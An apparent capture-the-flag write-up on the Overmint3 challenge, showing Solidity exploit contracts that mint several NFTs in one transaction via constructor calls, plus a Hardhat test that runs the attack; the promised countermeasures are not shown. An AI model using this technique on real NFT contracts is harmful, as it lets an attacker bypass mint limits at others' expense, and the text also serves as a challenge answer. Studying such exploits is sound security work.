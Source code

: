 # Title: Overminting NFTs in One Transaction: Exploit and Countermeasures

# Description:

The Overmint3 smart contract has a vulnerability that enables an attacker to obtain multiple NFTs within a single transaction, bypassing the intended limit of one NFT per user. This issue stems from insufficient checks during the minting process.

# Exploit:

An attacker can craft a smart contract (BatchNFTMinter) which, when deployed, instantiates multiple instances of another contract (IndividualNFTMinter).

```solidity
contract BatchNFTMinter {
    Overmint3 target;
    uint256 attackCounter = 1;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        while (attackCounter < 6) {
            attackCounter++;
            new IndividualNFTMinter(_target, _player);
        }
    }
}

contract IndividualNFTMinter {
    Overmint3 target;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        target.mint();
        target.safeTransferFrom(address(this), _player, target.totalSupply());
    }
}

```

Each IndividualNFTMinter contract instance then mints a new NFT from the Overmint3 contract and transfers it to the attacker's wallet address. As the minting and transfer take place within the constructor of the IndividualNFTMinter contract, the whole operation occurs in just one transaction.

```solidity
it("conduct your attack here", async function () {
  const BatchNFTMinterFactory = await ethers.getContractFactory(
    "BatchNFTMinter",
    attackerWallet
  );
  await BatchNFTMinterFactory.deploy(
    victimContract.address,
    attackerWallet.address
  );
});


```
